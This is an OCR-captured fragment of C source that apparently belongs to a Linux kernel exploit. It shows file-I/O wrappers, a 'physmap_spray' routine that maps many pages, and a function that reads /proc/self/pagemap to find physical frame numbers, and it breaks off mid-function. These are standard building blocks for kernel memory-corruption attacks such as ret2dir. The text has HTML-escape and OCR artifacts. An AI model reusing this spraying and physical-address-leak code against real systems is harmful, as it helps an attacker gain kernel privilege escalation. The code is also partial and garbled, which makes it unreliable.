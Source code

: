 ```
        perror("open");
        exit(-1);
    }
    return fd;
}

size_t Read(int fd, void *buf, size_t nbytes) {
    size_t nb = read(fd, buf, nbytes);
    if (nb != nbytes) {
        perror("read");
        exit(-1);
    }
    return nb;
}

size_t Write(int fd, void *buf, size_t nbytes) {
    size_t nb = write(fd, buf, nbytes);
    if (nb != nbytes) {
        perror("write");
        exit(-1);
    }
    return nb;
}

void physmap_spray() {
    int i;
    void *mp;
    for (i = 0; i &lt; SPRAY_CNT; i++)
    {
        if ((mp = mmap(NULL, 0x1000, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS|MAP_POPULATE, -1, 0 )) == MAP_FAILED) {
            perror("mmap");
            exit(-1);
        }
        sprayed_pages[i] = mp;
    }    
}

unsigned long get_pfn(void *pg) {
    unsigned long pginfo;
    int fd = Open("/proc/self/pagemap", O_RDWR);
    if (lseek(fd, ((off_t)pg &gt;&gt; 12) * sizeof(pginfo), SEEK_SET) &lt; 0) {
        perror("lseek");
        exit(-1);
    }

    if (read(fd, &amp;pginfo, sizeof(pginfo)) &lt; 0) {
        perror("read");
        exit(-1);
    }
    close(fd);
    unsigned long pfn = pginfo &amp; 0x7fffffffffffff;
    return pfn;
}

void list_pfn() {
    int i;
    for (i = 0; i &lt; SPRAY_CNT; i++) {
        printf("PFN[%d] = %lxn", i, get_pfn(sprayed_pages[i]));
    }
}

void *page_hit() {
```